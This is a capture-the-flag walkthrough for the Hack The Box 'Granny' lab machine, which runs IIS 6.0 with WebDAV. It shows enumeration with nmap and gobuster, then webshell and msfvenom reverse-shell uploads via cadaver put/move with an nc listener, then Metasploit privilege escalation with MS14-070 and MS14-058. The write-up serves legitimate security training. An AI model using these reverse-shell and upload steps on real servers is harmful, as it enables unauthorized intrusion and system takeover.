



# Hackthebox - Granny - Windows

- [Box on Hackthebox](https://app.hackthebox.com/machines/14)

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.15                                                                                                                                                                                         1 ⨯
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-09 16:13 EDT
Nmap scan report for 10.10.10.15
Host is up (0.031s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Sun, 09 Oct 2022 20:15:23 GMT
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (89%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.28 seconds
```

## Port 80

### Gobuster

#### Directory busting

```bash
┌──(kali㉿kali)-[~/Documents/granny]
└─$ gobuster dir -u http://10.10.10.15 -w directory-list-2.3-big.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /media/sf_kali-shared/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/09 15:58:02 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 149] [--> http://10.10.10.15/images/]
/Images               (Status: 301) [Size: 149] [--> http://10.10.10.15/Images/]
/IMAGES               (Status: 301) [Size: 149] [--> http://10.10.10.15/IMAGES/]
/_private             (Status: 301) [Size: 153] [--> http://10.10.10.15/%5Fprivate/]
```

- The private folder is useless for now
- We can also change our /etc/hosts file and add this list `10.10.10.15     granny.htb`

## Check for known vulnerabilities

### Google fu

- While gobuster is running, let's have a look in Google. IIS 6.0 seems to have a possible code execution vulnerability

### Nmap with vuln script

- Nmap has great scripts including some that will check for know vulnerabilities

```bash
┌──(kali㉿kali)-[~/Documents/granny]
└─$ nmap -sV --script=vuln 10.10.10.15       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-09 16:37 EDT
Nmap scan report for granny.htb (10.10.10.15)
Host is up (0.026s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-enum: 
|   /_vti_bin/: Frontpage file or folder
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|   /_vti_bin/shtml.exe: Frontpage file or folder
|_  /images/: Potentially interesting folder
|_http-server-header: Microsoft-IIS/6.0
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
| vulners: 
|   cpe:/a:microsoft:internet_information_server:6.0: 
|       SSV:2903        10.0    https://vulners.com/seebug/SSV:2903     *EXPLOIT*
|       PACKETSTORM:82956       10.0    https://vulners.com/packetstorm/PACKETSTORM:82956       *EXPLOIT*
|       MS01_033        10.0    https://vulners.com/canvas/MS01_033     *EXPLOIT*
|       CVE-2008-0075   10.0    https://vulners.com/cve/CVE-2008-0075
|       CVE-2001-0500   10.0    https://vulners.com/cve/CVE-2001-0500
|       SSV:30067       7.5     https://vulners.com/seebug/SSV:30067    *EXPLOIT*
|       CVE-2007-2897   7.5     https://vulners.com/cve/CVE-2007-2897
|       SSV:2902        7.2     https://vulners.com/seebug/SSV:2902     *EXPLOIT*
|       CVE-2008-0074   7.2     https://vulners.com/cve/CVE-2008-0074
|       CVE-2006-0026   6.5     https://vulners.com/cve/CVE-2006-0026
|       VERACODE:21774  5.0     https://vulners.com/veracode/VERACODE:21774
|       CVE-2005-2678   5.0     https://vulners.com/cve/CVE-2005-2678
|       CVE-2003-0718   5.0     https://vulners.com/cve/CVE-2003-0718
|       VERACODE:20937  4.3     https://vulners.com/veracode/VERACODE:20937
|       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
|       CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
|       CVE-2005-2089   4.3     https://vulners.com/cve/CVE-2005-2089
|       VERACODE:31557  4.0     https://vulners.com/veracode/VERACODE:31557
|       VERACODE:27647  3.5     https://vulners.com/veracode/VERACODE:27647
|_      CVE-2003-1582   2.6     https://vulners.com/cve/CVE-2003-1582
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.43 seconds
```

- The nmap enum is actually better than the wordlist I used with Gobuster. We get a few interesing directories.

### Frontpage extension

- According to our nmap we should be able to login anonymously. It refers us to this [article](https://insecure.org/sploits/Microsoft.frontpage.insecurities.html)
- Googling around we also find [this](https://github.com/deepak0401/Front-Page-Exploit). Let's use burp and temper with the request.
- Using it we can get more info. Our front page user name is "unknown"  
  
- The server version is `4.0.2.2611`  
  

### Davtest

- With further research we find this article on [null-byte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
- Davtest is able to create a directory and was able to execute html and txt.  
  
- While browsing in the directories disclosed through nmap I saw an asmx file. Let's try to put an an asmx file test there.
- Using cadaver `cadaver http://10.10.10.15/DavTestDir_kbmSbjBY` we can connect and upload files. I get forbidden with aspx and asmx files but txt and html works.
- There is a kali webshell in aspx here `/usr/share/webshells/aspx/cmdasp.aspx`
- Let's try to upload it as txt and then move it (we can move it with davtest move command)
- `cp cmdasp.aspx cmdasp.txt`
- `put cmdasp.txt` It works and we have it on the server  

- `move cmdasp.txt cmdasp.aspx` we move it  
  
- Now that we know we can do this let's make a payload with msfvenom and try to get a reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f aspx -o reverse.aspx`.
- We copy our payload to make a txt version `cp reverse.aspx reverse.txt`
- We set a listener `rlwrap nc -lnvp 4444`
- We put the txt file in the server and move it to make it executable by the server  

```bash
dav:/DavTestDir_kbmSbjBY/> put reverse.txt 
Uploading reverse.txt to `/DavTestDir_kbmSbjBY/reverse.txt':
Progress: [=============================>] 100.0% of 2747 bytes succeeded.
dav:/DavTestDir_kbmSbjBY/> move reverse.txt reverse.aspx
Moving `/DavTestDir_kbmSbjBY/reverse.txt' to `/DavTestDir_kbmSbjBY/reverse.aspx':  succeeded.
```

- We browse to http://10.10.10.15/DavTestDir_kbmSbjBY/reverse.aspx and get a shell  

- Our user is "network service"

## Privilege escalation

- Let's check for possible exploit with `systeminfo` we put the result of the command in a file.
- Systeminfo

```dos
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            1 Days, 0 Hours, 47 Minutes, 6 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 85 Stepping 7 GenuineIntel ~2293 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 758 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,306 MB
Page File: In Use:         164 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

- We can run windows exploit suggester on it `python3 /opt/wesng/wes.py --color sysinfo.txt | grep -B 3 -A 5 "Privilege"`
- I want to use metasploit for the privesc so I am going to get a shell using `exploit/windows/iis/iis_webdav_scstoragepathfromurl`
- This way I will also be able to check local exploit suggester
- From our session we can `run multi/recon/local_exploit_suggester`
- I do not get any result this way but from the previous check with wes we can try a few things like CVE-2014-4076.
- We should also migrate the shell because the getuid gives odd results. we just have to ps while in our sessions and find a pid that runs `NT AUTHORITY\NETWORK SERVICE`
- With a search on metasploit we find this `exploit/windows/local/ms14_070_tcpip_ioctl`
- We can use it
- we set the session with our session id `set session 21` then run and this will elevate our session  

- The session dies really quickly so we need to find another exploit. We can try `CVE-2014-4113` (or MS14_058)
- We can use `exploit/windows/local/ms14_058_track_popup_menu`
- Now we have to set session, set LHOST and choose a free port for LPORT.
- Then if we run we get another system shell but this time it does not die on us and we can grab the flags.  

